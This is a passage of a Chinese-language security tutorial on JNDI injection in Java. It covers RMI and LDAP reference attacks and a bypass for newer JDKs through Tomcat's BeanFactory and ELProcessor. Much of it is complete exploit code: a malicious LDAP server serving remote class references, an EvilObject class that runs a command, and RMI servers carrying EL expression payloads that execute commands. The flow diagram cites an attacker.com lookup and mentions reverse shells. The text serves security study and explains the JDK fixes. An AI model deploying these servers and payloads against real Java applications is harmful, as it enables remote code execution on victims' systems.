

可以看到下面已经拿到恶意类了，Calc

然后会执行本地的类加载

```
clas = helper.loadClass(factoryName);
```

当然这里肯定失败，因为本地没有这个恶意类

没找到之后会获取到 codebase，并且继续进行 helper.loadClass()



这里跟前面的类加载不一样，这里是通过codebase去找

codebase其实就是FactoryClassLocation我们传入的地址`http://localhost:7777`



我们跟进到这个loadClass中



可以发现这里面其实就是用了我们前面讲到的动态加载类的一个方法 ———— URLClassLoader

这里的返回值cl就是一个可以从远程 URL 加载我们恶意类的类加载器

然后用这个类加载器去调用loadClass，跟进到这个loadClass中



这个loadClass就会通过URL路径来进行加载，这里就能成功加载到了

这里会从这个路径里去找这个类进行加载，同时这个类加载是进行初始化的加载，因为这里第二个参数也就是是否初始化为true

所以如果我们恶意代码里写了静态代码块的话，在这里直接就能触发代码执行。

但是我们的恶意类里的命令是写在构造函数里的，还需要进行实例化才能执行，所以继续跟



从helper.loadClass()方法出来之后，这里执行了newInstance()方法实例化了恶意类

所以执行完这一步计算器就弹出来了，说明恶意类里的命令成功执行

---

总结一下，这里其实就是 URLClassLoader 的动态类加载导致的问题

这里主要是因为JNDI的引用，比较灵活，允许从不同的地址来执行动态类加载从而代码执行

攻击点的就是因为客户端进行了 `lookup()` 方法的调用。

这个漏洞在 jdk8u121 当中被修复，`lookup()` 方法只可以对本地进行 `lookup()` 方法的调用。

---

## 2. Jndi 结合 ldap

### ldap

- ldap 是一种协议，并不是 Java 独有的。

LDAP 既是一类服务，也是一种协议，定义在 [RFC2251](http://www.ietf.org/rfc/rfc2251.txt)([RFC4511](https://datatracker.ietf.org/doc/rfc4511/)) 中，是早期 X.500 DAP (目录访问协议) 的一个子集，因此有时也被称为 **X.500-lite**。

LDAP Directory 作为一种目录服务，主要用于带有条件限制的对象查询和搜索。目录服务作为一种特殊的数据库，用来保存描述性的、基于属性的详细信息。和传统数据库相比，最大的不同在于目录服务中数据的组织方式，它是一种有层次的树形结构，因此它有优异的读性能，但写性能较差，并且没有事务处理、回滚等复杂功能，不适于存储修改频繁的数据。

LDAP 的请求和响应是 **ASN.1** 格式，使用二进制的 BER 编码，操作类型(Operation)包括 Bind/Unbind、Search、Modify、Add、Delete、Compare 等等，除了这些常规的增删改查操作，同时也包含一些拓展的操作类型和异步通知事件。

---

### ldap 的 JNDI 漏洞

需要先起一个 LDAP 的服务，这里需要先在 pom.xml 中导入 `unboundid-ldapsdk` 的依赖

```
<dependency>  
 <groupId>com.unboundid</groupId>  
 <artifactId>unboundid-ldapsdk</artifactId>  
 <version>3.2.0</version>   
</dependency>
```

这里我们用java代码来起一个恶意的LDAP服务。

对应的服务器端的代码

`JNDILDAPServer.java`

```
package org.mixbp;

import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPException;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;
import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;
import java.net.InetAddress;
import java.net.MalformedURLException;
import java.net.URL;

/**
 * JNDI LDAP 恶意服务器
 * 用于演示 JNDI 注入攻击，返回恶意引用诱导受害者下载并执行恶意类
 */
public class JNDILDAPServer {
    private static final String LDAP_BASE = "dc=example,dc=com";
    
    public static void main (String[] args) {
        // 攻击者的 HTTP 服务器地址，#后面是恶意类名
        String url = "http://127.0.0.1:8000/#EvilObject";
        int port = 1099;  // LDAP 服务监听端口
        
        try {
            // ========== 1. 创建 LDAP 服务器配置 ==========
            InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
            
            // ========== 2. 配置网络监听 ==========
            config.setListenerConfigs(new InMemoryListenerConfig(
                    "listen",                                    // 配置名称
                    InetAddress.getByName("0.0.0.0"),          // 监听所有网络接口
                    port,                                       // 监听端口 1234
                    ServerSocketFactory.getDefault(),           // 普通 TCP Socket
                    SocketFactory.getDefault(),                 
                    (SSLSocketFactory) SSLSocketFactory.getDefault()));  // SSL Socket
            
            // ========== 3. 添加操作拦截器（核心攻击逻辑） ==========
            // 当有 LDAP 查询时，拦截器会构造恶意响应
            config.addInMemoryOperationInterceptor(new OperationInterceptor(new URL(url)));
            
            // ========== 4. 启动 LDAP 服务器 ==========
            InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
            System.out.println("Listening on 0.0.0.0:" + port);
            ds.startListening();  // 开始监听，阻塞运行
        }
        catch ( Exception e ) {
            e.printStackTrace();
        }
    }
    
    /**
     * LDAP 操作拦截器
     * 核心功能：拦截 LDAP 查询请求，返回 JNDI Reference 响应
     */
    private static class OperationInterceptor extends InMemoryOperationInterceptor {
        private URL codebase;  // 存储恶意 HTTP 服务器地址
        
        public OperationInterceptor ( URL cb ) {
            this.codebase = cb;  // codebase = http://127.0.0.1:8000/#EvilObject
        }
        
        /**
         * 拦截并处理 LDAP 搜索结果请求
         * 当受害者发起 LDAP 查询时，此方法被自动调用
         * @param result 拦截到的搜索结果
         */
        @Override
        public void processSearchResult ( InMemoryInterceptedSearchResult result ) {
            // 获取 LDAP 查询的 Base DN（可用来判断查询目标）
            String base = result.getRequest().getBaseDN();
            // 创建一个 LDAP 条目作为响应
            Entry e = new Entry(base);
            try {
                // 构造并发送恶意响应
                sendResult(result, base, e);
            }
            catch ( Exception e1 ) {
                e1.printStackTrace();
            }
        }
        
        /**
         * 构造并发送恶意的 JNDI Reference 响应
         * 原理：返回带有 javaCodeBase 和 javaFactory 的引用，
         * 引导受害者从攻击者服务器加载恶意类
         */
        protected void sendResult ( InMemoryInterceptedSearchResult result, String base, Entry e ) 
                throws LDAPException, MalformedURLException {
            
            // ========== 关键点1：构造恶意类的下载地址 ==========
            // 将 "EvilObject" 转换为 "EvilObject.class"
            URL turl = new URL(this.codebase, 
                    this.codebase.getRef().replace('.', '/').concat(".class"));
            // 结果：http://127.0.0.1:8000/EvilObject.class
            
            System.out.println("Send LDAP reference result for " + base + 
                             " redirecting to " + turl);
            
            // ========== 关键点2：添加 JNDI Reference 属性 ==========
            // 这些属性会被 JNDI 解析器识别，触发远程类加载
            
            // 指定类名（任意名称都可以）
            e.addAttribute("javaClassName", "Exploit");
            
            // 提取 codebase URL（去掉 # 后面的部分）
            String cbstring = this.codebase.toString();
            int refPos = cbstring.indexOf('#');
            if ( refPos > 0 ) {
                cbstring = cbstring.substring(0, refPos);  // 得到 "http://127.0.0.1:8000/"
            }
            // javaCodeBase：告诉 JNDI 去哪里下载类
            e.addAttribute("javaCodeBase", cbstring);
            
            // objectClass：标识这是一个 JNDI 引用对象
            e.addAttribute("objectClass", "javaNamingReference");
            
            // javaFactory：指定要加载的工厂类名
            e.addAttribute("javaFactory", this.codebase.getRef());  // "EvilObject"
            
            // ========== 关键点3：发送响应给客户端 ==========
            // 发送 LDAP 条目
            result.sendSearchEntry(e);
            // 返回成功状态码
            result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
        }
    }
}
```

客户端和这里只是把RMI替换成了ldap

JNDILDAPClient.java

```
import javax.naming.InitialContext;  
  
public class JNDILdapClient {  
    public static void main(String[] args) throws Exception{  
        InitialContext initialContext = new InitialContext();  
 RemoteObj remoteObj = (RemoteObj) initialContext.lookup("ldap://localhost:1099/remoteObj");  
 System.out.println(remoteObj.sayHello("hello"));  
 }  
}
```

**攻击流程演示**

```
1. 启动恶意 LDAP 服务器（这个程序）
   ↓
2. 受害者执行 JNDI 查找
   ldap://attacker.com:1234/xxx
   ↓
3. LDAP 服务器返回恶意响应
   javaCodeBase → http://127.0.0.1:8083/
   javaFactory → EvilObject
   ↓
4. 受害者从 HTTP 服务器下载 EvilObject.class
   ↓
5. 受害者执行恶意类中的代码（如反弹 shell）
```

---

**构造EvilObject.java**

```
public class EvilObject {
    public EvilObject() throws Exception {
        Runtime.getRuntime().exec("calc");
    }
}
```

编译恶意类

```
javac EvilObject.java
```

然后在class文件所在文件夹开启web服务

```
python -m http.server 8083
```

然后开启客户端

成功弹出计算器



LDAP+Reference的技巧远程加载Factory类不受RMI+Reference中的com.sun.jndi.rmi.object.trustURLCodebase、com.sun.jndi.cosnaming.object.trustURLCodebase等属性的限制，所以适用范围更广。

但在JDK 8u191、7u201、6u211之后，com.sun.jndi.ldap.object.trustURLCodebase属性的默认值被设置为false，对LDAP Reference远程工厂类的加载增加了限制。

**所以，当JDK版本介于8u191、7u201、6u211与6u141、7u131、8u121之间时，我们就可以利用LDAP+Reference的技巧来进行JNDI注入的利用。**

**因此，这种利用方式**的前提条件就是目标环境的JDK版本在JDK8u191、7u201、6u211以下。

---

### ladp的JNDI漏洞调试

这里就不调试了，流程基本上和前面的Reference引用对象攻击是一样的，就前面有点不一样，这里会走到`ladpctx`，而不是`RegistryContext`

然后会经过decodeObject拿到Reference之后会走到`DirectoryManager.getObjectInstance()`然后跟进到`getObjectFactoryFromReference()`获取到工厂地址，最后URL动态类加载。

---

## 3. jndi 结合 CORBA

一个简单的流程是：`resolve_str` 最终会调用到 `StubFactoryFactoryStaticImpl.createStubFactory` 去加载远程 class 并调用 newInstance 创建对象，其内部使用的 ClassLoader 是 `RMIClassLoader`，在反序列化 stub 的上下文中，默认不允许访问远程文件，因此这种方法在实际场景中比较少用。所以就不深入研究了。

---

# 绕过高版本 jdk 的攻击

## jdk 版本在 8u191 之前的绕过手段

jdk版本是Jdk8u121< temp < jdk8u191

这里绕过的方法就是上面的Jladp的JNDI漏洞

在jdk8u191之后的版本对于这个漏洞就已经修复了。

**修复手段源码**

```
// 旧版本JDK  
 /**  
 * @param className A non-null fully qualified class name.  
 * @param codebase A non-null, space-separated list of URL strings.  
 */  
 public Class<?> loadClass(String className, String codebase)  
 throws ClassNotFoundException, MalformedURLException {  
  
 ClassLoader parent = getContextClassLoader();  
 ClassLoader cl =  
 URLClassLoader.newInstance(getUrlArray(codebase), parent);  
  
 return loadClass(className, cl);  
 }  
  
  
// 新版本JDK  
 /**  
 * @param className A non-null fully qualified class name.  
 * @param codebase A non-null, space-separated list of URL strings.  
 */  
 public Class<?> loadClass(String className, String codebase)  
 throws ClassNotFoundException, MalformedURLException {  
 if ("true".equalsIgnoreCase(trustURLCodebase)) {  
 ClassLoader parent = getContextClassLoader();  
 ClassLoader cl =  
 URLClassLoader.newInstance(getUrlArray(codebase), parent);  
  
 return loadClass(className, cl);  
 } else {  
 return null;  
 }  
 }
```

**在使用 `URLClassLoader` 加载器加载远程类之前加了个if语句检测**

根据 `trustURLCodebase的值是否为true` 的值来进行判断，它的值默认为 false。通俗的来说，jdk8u191 之后的版本通过添加 `trustURLCodebase 的值是否为 true` 这一手段，让我们无法加载 codebase，也就是无法让我们进行 URLClassLoader 的攻击了。

---

## jdk 版本在 8u191 之后的绕过方式

这里主要的攻击方式就是利用本地恶意Class作为Reference Factory

---

### 绕过方法一 利用利用本地恶意Class作为Reference Factory

这里绕过的方法主要是用服务端本地 ClassPath 中存在的恶意 Factory 类来作为 Reference Factory 进行攻击利用

该恶意 Factory 类必须实现 `javax.naming.spi.ObjectFactory` 接口，实现该接口的 getObjectInstance() 方法。

这里常用的是`org.apache.naming.factory.BeanFactory` 类，完美满足上面的要求，存在于 Tomcat8 依赖包中

该类的 `getObjectInstance()` 函数中会通过反射的方式实例化 Reference 所指向的任意 Bean Class(Bean Class 就类似于我们之前说的那个 CommonsBeanUtils 这种)，并且会调用 setter 方法为所有的属性赋值

而该 Bean Class 的类名、属性、属性值，全都来自于 Reference 对象，均是攻击者可控的。

---

**攻击利用**

这里用RMI来演示攻击，当然ladp也可以。

先导入所需依赖

具体依赖 Tomcat 中的 jar 包为：catalina.jar、el-api.jar、jasper-el.jar。

```
    <dependencies>
        <!-- UnboundID LDAP SDK -->
        <dependency>
            <groupId>com.unboundid</groupId>
            <artifactId>unboundid-ldapsdk</artifactId>
            <version>3.2.0</version>
        </dependency>

        <!-- Commons Collections -->
        <dependency>
            <groupId>commons-collections</groupId>
            <artifactId>commons-collections</artifactId>
            <version>3.2.1</version>
        </dependency>

        <!-- JUnit (测试框架) -->
        <dependency>
            <groupId>junit</groupId>
            <artifactId>junit</artifactId>
            <version>4.11</version>
        </dependency>

        <!-- Hamcrest Core (JUnit 依赖，显式声明) -->
        <dependency>
            <groupId>org.hamcrest</groupId>
            <artifactId>hamcrest-core</artifactId>
            <version>1.3</version>
        </dependency>

        <!-- Tomcat Embed Core -->
        <dependency>
            <groupId>org.apache.tomcat.embed</groupId>
            <artifactId>tomcat-embed-core</artifactId>
            <version>8.5.71</version>
        </dependency>

        <!-- Tomcat Annotations API -->
        <dependency>
            <groupId>org.apache.tomcat</groupId>
            <artifactId>tomcat-annotations-api</artifactId>
            <version>8.5.71</version>
        </dependency>
        
        <dependency>
        	<groupId>org.glassfish</groupId>
        	<artifactId>javax.el</artifactId>
        	<version>3.0.1-b08</version>
        </dependency>
        
    </dependencies>
```

---

**恶意服务端代码**

**JNDIBypassHighJavaServerRebind.java**

```
package org.mixbp;

import org.apache.naming.ResourceRef;
import javax.naming.InitialContext;
import javax.naming.StringRefAddr;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class JNDIBypassHighJavaServerRebind {
    public static void main(String[] args) throws Exception{
        System.out.println("[*]Evil RMI Server is Listening on port: 1099");
        Registry registry = LocateRegistry.createRegistry( 1099);

        InitialContext initialContext = new InitialContext();
        ResourceRef resourceRef = new ResourceRef("javax.el.ELProcessor",null,"","",
                true,"org.apache.naming.factory.BeanFactory",null );
        resourceRef.add(new StringRefAddr("forceString", "x=eval"));
        resourceRef.add(new StringRefAddr("x","Runtime.getRuntime().exec('calc')" ));
        initialContext.rebind("rmi://localhost:1099/remoteObj", resourceRef);
    }
}
```

使用bind方法的恶意服务端

```
package org.mixbp;

import com.sun.jndi.rmi.registry.ReferenceWrapper;
import org.apache.naming.ResourceRef;

import javax.naming.StringRefAddr;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

// JNDI 高版本 jdk 绕过服务端
public class JNDIBypassHighJava {
    public static void main(String[] args) throws Exception {
        System.out.println("[*]Evil RMI Server is Listening on port: 1099");
        Registry registry = LocateRegistry.createRegistry( 1099);
        // 实例化Reference，指定目标类为javax.el.ELProcessor，工厂类为org.apache.naming.factory.BeanFactory
        ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "",
                true,"org.apache.naming.factory.BeanFactory",null);
        // 强制将'x'属性的setter从'setX'变为'eval', 详细逻辑见BeanFactory.getObjectInstance代码
        ref.add(new StringRefAddr("forceString", "x=eval"));
        // 利用表达式执行命令
        ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\")" +
                ".newInstance().getEngineByName(\"JavaScript\")" +
                ".eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['calc']).start()\")"));
        System.out.println("[*]Evil command: calc");
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(ref);
        registry.bind("remoteObj", referenceWrapper);
    }
}
```

这两个都能用，我这里就用第一个了

JNDI客户端

```
package org.mixbp;

import javax.naming.Context;
import javax.naming.InitialContext;

public class JNDIBypassHighJavaClient {
    public static void main(String[] args) throws Exception {
        String uri = "rmi://localhost:1099/remoteObj";
        Context context = new InitialContext();
        context.lookup(uri);
    }
}
```

弹出计算器，说明恶意命令执行成功



---

#### 调试分析

在客户端的lookup()方法处下断点

然后到lookup里前面大部分和之前是一样的，直接一路跟到 `RegistryContext` 这个类的 `decodeObject()`

这个方法当中调用了 `getObjectInstance()`



然后在decodeObject方法内步过一直到getObjectFactoryFromReference



跟进去`getObjectFactoryFromReference()`

这里通过loadClass()方法本地加载我们传入的 `org.apache.naming.factory.BeanFactory` 类，因为这个类是本地存在的



然后新建该类实例并将其转换成 `ObjectFactory` 类型

